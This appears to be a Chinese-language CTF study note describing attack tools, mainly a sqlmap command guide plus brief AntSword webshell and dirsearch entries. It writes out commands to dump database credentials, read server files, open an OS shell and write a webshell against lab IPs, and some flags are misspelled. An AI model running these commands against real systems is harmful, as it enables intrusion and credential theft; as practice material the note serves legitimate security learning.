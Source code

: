 ```yaml
---
{"dg-publish":true,"permalink":"/c5/ctf/ctf/ctf/","dgPassFrontmatter":true}
---
```


#CTF-工具
**BP**:抓包工具，啥都能用
**Dirsearch**:用 Python 编写的开源的目录和文件扫描工具，常用于网站的信息收集阶段，通过对目标网站进行目录和文件的枚举，帮助发现网站上可能存在的敏感目录或文件[[0-Dirsearch使用教程\|0-Dirsearch使用教程]]


# SQLMAP使用
#CTF-工具 
## 参数介绍和示例

`-r`：万能参数，主要针对post注入，但是任何其他请求方法都是可以的，但这个参数用的最多
```
sqlmap.py -r c:\2.txt
```
`-u`：只针对get请求方法的注入
```
sqlmap.py -u http://192.168.0.15/sql.php?id=1
```
`--level=LEVEL`:执行测试的等级（1-5,默认为1），使用`-level`参数且数值>=2时候会检查cookie里面的参数，当>=3的时候将检查`user-agent`和`Referer`
```
sqlmap.py -r c:\2.txt --level 3
```
`--risk=RISK`:执行测试的风险（0-3，默认为1），默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试
```
sqlmap.py -r c:\2.txt --level 3 --risk 3
```
`v`:显示详细信息的意思，ERBOSE信息级别：0-6（缺省默认1），其值具体含义：“0”只显示Python错误以及严重的信息；“1”同时显示基本信息和警告信息（默认）；“2”同时显示debug信息：“3”同时显示注入的payload；“4”同时显示HTTP请求；“5”同时显示HTTP响应头；“6”同时显示HTTP响应页面；如果想看到sqlmap发送的测试payload最好的等级就是3，设置为5的话，可以看到http响应信息，比较详细
```
sqlmap.py -r c:\2.txt --level 3 --risk 3-v 3
```
`p`:针对某一个参数进行注入，当我们发现注入点的时候，比如网址`http://192.168.203.141/sql.php?id=1`只有一个参数id,而当有些网址有很多参数，那么我们可以针对指定的参数进行注入
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -p id
```
`--threads`：线程数，如果想要sqlmap跑的更快，可以更改这个线程数的值，默认为10
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -p id --threads 20
```
`-batch-smart`:智能判断测试，自行寻找注入点进行测试,能趴到好多数据，如果想结束指令的执行`ctrl+c`，这个智能指令，会将所有数据库全部扒一遍，并且会将每一步的信息和数据全部给我们保存下来，在sqlmap的output文件夹下面
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -batch-smart
```
## 注入获取数据的相关参数
```
--dbs:会获取所有的数据库。默认情况下sqlmap会自动的探测web应用后端的数据库类型：MySQL、Orcacle,PostgreSQL,MicrosoftSQL,Server,Microsoft Access,SQLite,Firebird,Sybase,SAPMaxDB,DB2
--current-user:大多数数据库中可检测到数据库管理系统当前用户
--current-db:当前连接数据库名
--is-dba:判断当前的用户是否为管理
--users:列出数据库所有所有用户
```
以网址`http://192.168.203.143/sql.php?id=1`来走一般完整注入过程
```
http://192.168.203.143/sql.php?id=1 --dbs #会获取所有的数据库
http://192.168.203.143/sql.php?id=1 --current-user #显示当前用户
http://192.168.203.143/sql.php?id=1 --current-db #当前连接数据库名
http://192.168.203.143/sql.php?id=1 --is-dba #判断当前的用户是否为管理
http://192.168.203.143/sql.php?id=1 --users #列出数据库所有所有用户
```
然后按照下面的几个参数来获取细节数据。
**`-tables`获取表名**：-D是指定某个数据库，如果不加-D参数，那么会将所有数据库的所有表获取出来，最好指定数据库名，这样精准快速一些
```
--tables -D 数据库名
```
**`--columns`获取字段名**：
```
--cloumns -T user -D abc
```
**获取数据**
```
-T user -C username,password,email --dump
```
**读文件内容**
```
--file-read /etc/password
如果我们想要读取目标主机的c:\\2.txt文件的数据
sqlmap.py -u http://192.168.203.141/sql.php?id=1 --file-read c:\\2.txt
```
**系统交互的shell**:`--os-shell`
```
sqlmap.py -u http://192.168.203.141/sqlserver/1.aspx?xxser=1 --os-shell
```
**写webshell** :`--file-wirte`
```
指令
--file-write "c:/2.txt" --file-dest "C:/php/htdocs/sql.php" -v 1

--file-write "c:/2.txt" --file-dest"C:\phpStudy\PHPTutoria\www\xx.php" -v 1
```



# antsword蚁剑使用教程
#CTF-RCE #CTF-命令执行 

[贴一篇使用博客](https://blog.csdn.net/qq_53079406/article/details/123302775)
## 一、antsword的webshell使用

第一步：在首页空白处右键-----添加数据（shell)
![Pasted image 20250405095548.png|450](/img/user/PNG/Pasted%20image%2020250405095548.png)
第二步：输入要挂马的地址和连接密码，添加保存（选个加密方法）
![Pasted image 20250405100610.png|450](/img/user/PNG/Pasted%20image%2020250405100610.png)

# dirsearch 目录扫描使用教程
#CTF-信息收集 